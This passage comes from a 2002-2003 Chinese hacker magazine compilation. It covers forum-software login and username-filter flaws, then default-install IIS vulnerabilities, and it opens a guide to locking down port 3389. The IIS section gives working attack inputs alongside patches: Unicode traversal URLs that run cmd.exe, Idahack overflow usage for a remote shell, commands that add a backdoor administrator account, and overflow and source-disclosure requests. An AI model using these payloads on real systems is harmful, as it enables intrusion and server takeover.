# 黑客X档案合订本2002-2003年（上）第二部分

---

# 黑客研究院

具，然后马上用来查看那人已经登录时的密码，如果那人是版主甚至是坛主，那后果更加不堪设想。

所以在离开公网电脑之前，一定要记得退出，这是最重要的。

另外强烈建议开发者修改一下论坛，就是在用户正常登录以后，发帖子和回复的时候不要显示出密码框；还要修改成登录以后才可以发表帖子，（开放论坛只显示用户名输入框）这样可以避免别人用查看“*”号的工具查看已经登录的用户，还可以避免一些不愿意登录的人重复输入密码。像“动网”那样只要发表了帖子就可自动登录是极好的。

登录管理中心以后，可能因为某种原因，不小心、遭到攻击、程序出错什么的，导致浏览器被强行关闭了。这时可能你要离开网吧了，心想反正已经被关了，就不理了。谁知道第二次上网的时候发现你的论坛已经空空一片或者面目全非了，更糟的是没有备份。不要以为不可能，在安全方面怎么重视都不过分！这是因为进入管理中心以后，浏览器在缓存里建立一个 admincenter.cgi 的文件，记录着管理员的用户名和密码，当你正常退出后，又会建立一个 admincenter.cgi?action=logout 文件，这时 Cookie 会失效并被自动删除，在管理中心上有这么一句话：Cookie 只会存在于当前的浏览器进程中。为了安全起见，当你关闭了浏览器后，Cookie 会失效并被自动删除。看到没有？只会存在于当前浏览器进程中，IE 是单页面的浏览器，关掉当然没什么，但 NetCaptor、傲游、网神或腾讯斯利多页面浏览器呢？即使你非正常退出关了管理中心的窗口，但只要这个浏览器没有关闭，那些 Cookie 还是存在的，别人接着上你的机子，调出原先的管理中心，哈哈，看见没有？不用通过身份验证就可以进入管理中心，怪不得你的论坛已经空空一片或者面目全非了。

防范方法：正常退出就是最好的防范方法。在多页面浏览器里如果没有正常退出，你就要想尽一切办法消除现有的 Cookie，或者重新登录一次再正常退出即可。在此我还是建议开发者加强程序对多页面浏览器 Cookie 的处理。

本着不过白吃的“拿来主义”精神，我回过头来继续研究一下 test、test#、#test 这三个用户时，终于发现一个大漏洞，这虽然不会危害到主机，但会危害到用户。刚才已经说了出现用户名被抢注的问题出在 #test，那 test、test# 有没有问题呢？说一下原理，当一个人注册 name 后，有一个心怀不轨的人注册一个 name#，这时是可以注册的，因为在这里“#”没有像“~、!、@、$、%、^、&、*、()”这些字符一样会自动过滤成空的，因此注册成功，但在管理中心的时候，这个“#”放在用户名后面就会被过滤掉，name# 在管理中心里就是 name，坛主编辑 name# 的资料时，就会编辑到 name 了，下面给大家看一个实例。

刚才已经注册过了 test、test#，现在登录到管理中心进入用户管理，编辑 test# 看看，如图 7 所示（注意看 URL 后面的参数 test# 和下面的“要编辑的用户名名称：test”）。



不同吧？我们是要编辑 test# 这个用户的，但却编辑了 test 用户，这个特殊字符“#”没有完全过滤好。万一有人用这种方法去论坛捣乱，而坛主要删除他，可是删错了，更要命的受害者还是挺冤。现在知道这个 # 的厉害了吗？

防范方法：修改 register.cgi 这个文件，查找

`$inmembername =~ s/[\a\f\n\e\0\r\t\'\"\!\@\$\%\^\&\*\(\)\+\=\\\{\}\;\:\"\,\.\/<>\?]//isg;`

会 Perl 的朋友应该注意到了吧？在特殊字符的过滤段，少了一个 #，所以应该添加上，改为

`$inmembername =~ s/[\a\f\n\e\0\r\t\'\"\!\#\@\$\%\^\&\*\(\)\+\=\\\{\}\;\:\"\,\.\/<>\?]//isg;`

不会 Perl 的朋友直接复制上去！放到服务器覆盖原文件。好了，到这里，用户用“#”注册的问题也解决了。

最后还有一些细节，希望开发者无缺大哥能够修改，在“个人状态”里对浏览器的识别能力不够强，我明明是用 NetCaptor，但程序还是显示我用 IE6.0，也不知道是不是受本机的 IE6.0 影响。最重要的就是速度和资源消耗，希望开发者能尽快做出新版本解决以上问题；我的空间就是因为这两个原因被停了 CGI 权限，所以我才给 LB5000 XP V0403 挑些毛病。

希望读者不要看了此文而去效仿，因此而起的一切后果与作者无关。否则后果自负。



## IIS 默认安装的漏洞及补救方法

自从有了 IIS，做 WEB 变得容易了很多，但是其安全性却不容忽视。你也许已经感觉到 WINDOWS 的东西进行默认安装都会存在极大的安全问题。而且现在有很多的攻击都是基于 WEB 的，所以保护好 WEB 服务器是非常有必要的。

有的人以为 IIS 装好就可以用了，其实这是非常危险的。IIS 的默认安装是可以让你损失一台服务器。下面我们一起看一下 IIS 默认安装的漏洞。

默认安装 Windows 2000 Server 中文版，以下测试机虚拟域名均为 localhost，对应 IP 为 127.0.0.1。


### 1、漏洞描述

IIS 4.0 和 IIS 5.0 在 Unicode 字符解码的实现中存在一个安全漏洞。当调用可执行 CGI 程序时，IIS 进行一次解码。首先，CGI 文件将被检查是否是一个可执行文件（比如 exe 或者 com 后缀检查）。第一次成功检查后，IIS 将调用另一个解码进程。正常情况下，只有 CGI 参数才能在此进程中进行解码。但是此时 IIS 既对 CGI 参数进行解码，同时也对解码过的 CGI 文件名进行解码。这样，CGI 文件名将被错误地进行二次解码。这种情况导致用户可以远程通过 IIS 执行任意命令。当 IIS 打开文件时，如果该文件名包含 Unicode 字符，它会对其进行解码，如果用户提供一些特殊的编码，将导致 IIS 错误地打开或者执行某些 WEB 根目录以外的文件。

对于 IIS 5.0/4.0 中文版，当 IIS 收到的 URL 请求的文件名中包含一个特殊的编码，例如“%c1%hh”或者“%c0%hh”，它会首先将其解码变成：0xc10xhh，然后尝试打开这个文件，Windows 系统认为 0xc10xhh 可能是 Unicode 编码，因此它会首先将其解码，如果 0x00<=%hh<0x40 的话，采用的解码格式与下面的格式类似：

```text
%c1%hh => (0xc1 - 0xc0) * 0x40 + 0xhh
%c0%hh => (0xc0 - 0xc0) * 0x40 + 0xhh
```

因此，利用这种编码，我们可以构造很多字符，例如：

```text
%c1%1c => (0xc1 - 0xc0) * 0x40 + 0x1c = 0x5c = \
%c0%2f => (0xc0 - 0xc0) * 0x40 + 0x2f = 0x2f = /
```

攻击者可以利用这个漏洞来绕过 IIS 的路径检查，去执行或者打开任意的文件。

### 2、漏洞测试

我们在 IE 地址栏输入 `http://127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir+c:\`，如果存在此漏洞，我们便可以看到如图 1 所示的内容。

如果主机的管理员把 scripts 的目录已经删除，我们可以换一种方法，如 `http://127.0.0.1/msadc/..%255c..%255c/..%255c..%255c/winnt/system32/cmd.exe?/c+dir+c:\`。如果漏洞和目录同时存在，你就可以在 WEB 页上看到相应的目录里的“垃圾”。

基于 Unicode 漏洞，我们可以对远程目标主机进行一些操作，比如显示文件内容、建立文件夹、删除文件或文件夹、COPY 文件、重命名文件等。当然，我们还可以利用 TFTP 进行文件上传等。关于此漏洞的利用，不同的人有不同的方法，在这里我们就不再一一列举了。



### 3、解决方案

- 1. 如果不需要可执行的 CGI，可以删除可执行虚拟目录，例如 /scripts 等。
- 2. 如果确实需要可执行的虚拟目录，建议可执行虚拟目录单独在一个分区。

微软已经发布了一个安全公告 MS00-78，你可以在下列地址看到更详细的内容：http://www.microsoft.com/technet/Security/Bulletin/ms00-078.asp

- 补丁可以从下列地址下载：
  - Microsoft IIS 4.0：http://www.microsoft.com/ntserver/nts/downloads/critical/q301625/default.asp
  - Microsoft IIS 5.0：http://www.microsoft.com/windows2000/downloads/critical/q301625/default.asp



- 1. 漏洞描述：默认的 /iissamples 虚拟目录允许目录浏览。
- 2. 漏洞测试：在地址栏中输入 `http://localhost/iissamples`，我们就可以看到安装的 IIS sample 文件。如图 2 所示。



- 3. 解决方案：在 IIS 上删除 /iissamples 这个虚拟目录。

## 三、IDA、IDQ 漏洞

### 1、漏洞描述

IIS 在处理以“.ida”或“.idq”为扩展名的 URL 请求时，它会有两种结果。一种可能的结果是服务器回复“URL String too long”的信息或类似“Cannot find the specified path”的信息；另一种可能就是服务器端服务停止，并返回“Access Violation”信息（即成功地实现了对服务器端的拒绝服务攻击）。当远端攻击者发出类似如下的请求时：

```text
http://localhost/... [25kb of "..."] ...ida
```

服务器端会崩溃（导致拒绝服务攻击）或返回该文件不在当前路径的信息（暴露文件物理地址）。这是一个信息漏洞，便于入侵者摸清楚 WEB 网站的结构，大大方便其修改主页。

还有就是 idq.dll 缓冲区溢出漏洞，微软发布安全公告，指出其 Index Server 和 Indexing Service 存在漏洞。

作为安装过程的一部分，IIS 安装了几个 ISAPI 扩展 .dll。其中的 idq.dll 存在问题，它是 Index Server 的一个组件，对管理员脚本（.ida 文件）和 INTERNET 数据查询（.idq 文件）提供支持。

但是，idq.dll 在一段处理 URL 输入的代码中存在一个未经检查的缓冲区。因此字符串超出漏洞能导致受影响的服务器产生缓冲区溢出，从而执行自己提供的代码。而更为严重的是，idq.dll 是以 SYSTEM 身份运行的，攻击者成功利用此漏洞后能取得系统管理员权限。

### 2、漏洞测试

- 暴露文件物理地址

在地址栏中输入 `http://localhost/test.idq`，则返回信息为：文件 `c:\inetpub\wwwroot\query.idq`，系统找不到指定的路径。

- idq.dll 缓冲区溢出

我们以 Sunx 写的 Idahack 为例，对远程主机进行溢出。Idahack 的用法是：`idahack <Host> <HostPort> <HostType> <ShellPort>`

Host 即是远程主机，HostPort 是远程主机端口，一般为 80；HostType 是远程主机类型，分为 chinese win2k:1、chinese win2k sp1:2、chinese win2k sp2:3；ShellPort 是不确定对方系统为何种版本的 Win2k 时，可以修改 HostType 后再试。

下面我们举一个实例：经过测试，已确定对方系统类型为 chinese win2k sp1，我们要在命令窗口中输入 `idahack x.x.x.x 80 1 901`，如果成功溢出，我们可以得到类似 `Now you can telnet to xxx port` 的信息。然后我们就可以直接 telnet 到该端口，如图 3 所示。



输入 `telnet x.x.x.x 901`，如果成功，可以看到下面的窗口，如图 4 所示。

```text
net user test test /add
```



添加了一个名为 test、密码为 test 的用户。

```text
net localgroup administrators test /add
```

这样就可以把 test 加入到管理员组中，具有管理员权限。当然，我们还可以做其它的，如远程安装 VNC（参看小榕的文章《VNC 的远程安装》）、安装木马、Sniff 软件等。

### 3、解决方案

- 方法一：下载 Windows NT 4.0 补丁  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=30833

  Windows 2000 Professional、Server and Advanced Server：  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=30800

- 方法二：删除对 .idq 和 .ida 的脚本映射。

注意：如果其它系统组件被撤销，有可能导致该映射被重新自动安装。请时常检查自己的服务器，以确保安全。

## 四、.htr 漏洞

### 1、利用 %3F+.htr 导致 IIS 5.0 泄露文件内容

在地址栏中输入 `http://127.0.0.1/scripts/test.pl%3F+.htr`，将会导致泄露 /scripts/test.pl 的内容，而不是执行 CGI 程序。

解决方案：下载以下补丁。

- IIS 4.0：  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=27492

- IIS 5.0：  
  http://www.microsoft.com/Downloads/Release.asp?ReleaseID=27491

### 2、.htr 映射远程堆溢出漏洞

在地址栏中输入：`http://localhost/foo.htr?<buffer>=x`，如果 buffer 的长度超长，就可能使 IIS 服务器崩溃或重启。

解决方案：删除 .htr 映射。

### 3、HTR chunked 编码传输方式远程溢出漏洞

默认安装的 IIS 4.0/5.0 服务器加载了 HTR ISAPI 过滤器，当 HTR 请求会话进程结合分块编码传送处理时存在一个缓冲区溢出漏洞。攻击者可以提交精心构建的会话而覆盖堆的内存数据结构，使之以其指定的数据重写任意地址的 4 字节内存。由于开发者代替了默认异常处理过滤器，所以利用此漏洞进行攻击可以使 dllhost.exe 子进程在无现象的情况下崩溃，因此如果你要进行调试，就需要装载调试程序对 dllhost.exe 进行跟踪。

以下是 Ryan Permeh 提供的攻击测试方法：提交如下请求，并通过调试程序进行跟踪，会发现 dllhost.exe 进程崩溃：

```text
********Begin Session********
POST /EEYE.htr HTTP/1.1
Host: 0day.big5.com
Transfer-Encoding: chunked

20
XXXXXXXXXXXXXXXXXXXXXXXXXXXXEEYE2002
0
[enter]
[enter]
*****End Session*****
```

临时解决方案：应该立刻删除“.htr”脚本映像。

下载补丁：

IIS 4.0：  
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=39579

IIS 5.0：  
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=39217

## 五、CodeBrws.asp 远程读取和控制源码漏洞

- 1. 漏洞描述  
  IIS 5.0 默认自带的示例脚本文件“CodeBrws.asp”对用户输入没有正确过滤，“CodeBrws.asp”脚本中虽然对提交给它参数的路径信息中检查是否包含了“..”串，也没有考虑到 Unicode 的可能，攻击者可能提交“..”串的 Unicode 表示方式“%c0%ae%c0%ae”给脚本程序，从而访问到 WEB 目录内任意以 .asp、.inc、.htm 和 .html 为后缀文件的源码。
- 2. 攻击测试：  
  `http://localhost/iisamples/sdk/asp/docs/CodeBrws.asp?Source=/IISSAMPLES/%c0%ae%c0%ae/default.asp`  
  将显示 default.asp 的源代码，攻击者可以从中得到数据库的用户名和密码等。
- 3. 解决方案：删除 CodeBrws.asp 脚本或整个示例脚本目录。

## 六、远程获得 IP 地址漏洞

如果 IIS 服务器受一个有 NAT 功能的防火墙的保护并使用一个内部 IP 地址，通过向服务器发送一个畸形的请求，远程攻击者可能得到这台主机的内部 IP 地址。

可以发送一个包含空 Host 指令内容的 HTTP 请求给服务器，IIS 通常会返回主机的 IP 地址。例如，发送如下的请求：

```text
PROPFIND / HTTP/1.1
Host:
Content-Length: 0
```

服务器会返回 207 Multi-Status 信息，包含了页面的一些属性信息，在 HREF 属性中就会泄露主机的 IP 地址。在 HTTP 请求中使用 WRITE 或 MKCOL 方法，可以在回应信息的 Location 节点中得到主机的 IP 地址。

解决方案：打开一个 DOS 窗口，切换到管理脚本目录（如：`c:\inetpub\adminscripts`）下，运行如下这些命令：

```text
adsutil set w3svc/UseHostName True
net stop iisadmin /y
net start w3svc
```

这样会使 IIS 服务器使用主机名而不是自己的 IP 地址。

## 七、IIS FTP SERVER 允许暴力猜解用户密码

默认的 IIS FTP 允许远程攻击者暴力猜解用户密码，这样就带来了一定的安全隐患。

## 八、ASP FSO 组件威胁服务器

FSO（FileSystemObject）是微软 ASP 的一个对文件操作的控件，该控件可以对服务器进行读取、新建、修改、删除目录以及文件的操作，是 ASP 编程中非常有用的一个控件。但是因为权限控制的问题，很多虚拟主机服务器的 FSO 反而成为这台服务器的一个公开的后门。因为客户可以在自己的 ASP 网页里面直接就对该控件编程，从而控制该服务器甚至删除服务器上的文件。那么如何让客户在自己的网站空间中任意使用 FSO 却又没有办法危害系统或者妨碍其他客户网站的正常运行呢？

我们只要对虚拟主机的不同用户设置相应的权限即可办到，前提是硬盘必须使用 NTFS 格式。

在服务器上打开“资源管理器”，用鼠标右键点击各个硬盘分区，选择“属性”->“安全”，这时我们可以看到对此盘的完全控制权限默认是“Everyone”。点击“添加”，将“Administrators”、“Backup Operators”、“Power Users”、“Users”等几个组添加进去，并给予“完全控制”或相应的权限，然后将“Everyone”组从列表中删除。

注意：不要给“Guests”组、“IUSR_机器名”这几个帐号任何权限，因为当 ASP 执行时，定义“IUSR_机器名”的权限访问硬盘的，这里没给该用户帐号权限，ASP 也就不能读写硬盘上的文件了。

下面要做的就是给每个虚拟主机用户设置一个单独的用户帐号，然后再给每个帐号分配一个允许其完全控制的目录。我们以新建一个虚拟主机名为“hello”为例，对应 WEB 目录文件名为：`F:\WWW\HELLO` 为例。

打开“计算机管理”->“本地用户和组”->“用户”，然后添加一个新用户“IUSR_HELLO”，并对其其它选项进行相应的设置（最好选择不允许用户修改密码）。新建的“IUSR_HELLO”默认为 USER 组，我们把他加为 GUEST 组中。

打开“Internet 信息服务”，设置“IUSR_HELLO”对应的虚拟主机。把“IUSR_HELLO”的主目录设置为 `F:\WWW\HELLO`，并将“IUSR_HELLO”对应的 WEB 匿名访问帐号设置为“IUSR_HELLO”。然后切换到 `F:\WWW\HELLO` 目录，对该目录设置访问权限，将“ADMINISTRATOR”和“IUSR_HELLO”设置为完全访问（当然可以根据不同要求加入其他的用户），删除一些没有必要的用户名，将“允许将来自父系的可继承权限传播给该对象”前面的勾去掉。

经此设置后，“IUSR_HELLO”虚拟主机的用户在使用 ASP 的 FileSystemObject 组件时只能访问自己的目录：`F:\WWW\HELLO` 下的内容。当试图访问其它内容时，会出现诸如“没有权限”、“硬盘未准备好”、“500 服务器内部错误”等出错提示。

以上是本人收集整理的一些漏洞，其实 IIS 的漏洞还有很多，平时只要管理服务器注意一下安全动态，及时修补，时常为自己的服务器做安全检测，这样服务器的安全性还是有一定保障。

## 微软使用 IP 策略阻止 3389 非法访问

wawa



Windows 2000 的终端服务是一个无论在速度还是在易操作性上都是非常出色的远程管理服务，也是因为它的这些优点，基于对它默认使用的 3389 端口的攻击和扫描层出不穷。非法入侵者通过 3389 进入后，会完全控制你的主机，或是利用此主机作为远程转移攻击平台，给你给别人都带来不小的麻烦。

我们现在都已经认识到这一点，并开始着手 3389 的安全防护。比如，给系统装上最新的 SP，删除系统输入法帮助，更改默认的 3389 端口，将终端服务 RDP 协议绑定在需要连接的网卡上等等方法，但这些也会有不足的地方。能否可以进一步地保证 3389 的安全性呢？答案是肯定的，我们可以使用 Windows 2000 的 IP 安全策略来加强 3389 的防护。

思路是这样：我们在主机过滤大部分远程连接本地 3389 端口的 TCP 请求，仅仅允许通过我们指定的授权 IP 连接（管理员所使用的工作站地址）。下面来看看如何实现。（我第一次使用时，感觉挺复杂。但了解后就感觉好了，希望第一次接触者试着尝试一下，对以后在安全管理系统上会有帮助！）

首先，打开“管理工具”中的“本地安全策略”，在“IP 安全策略”选项上点击右键，如图 1 所示：

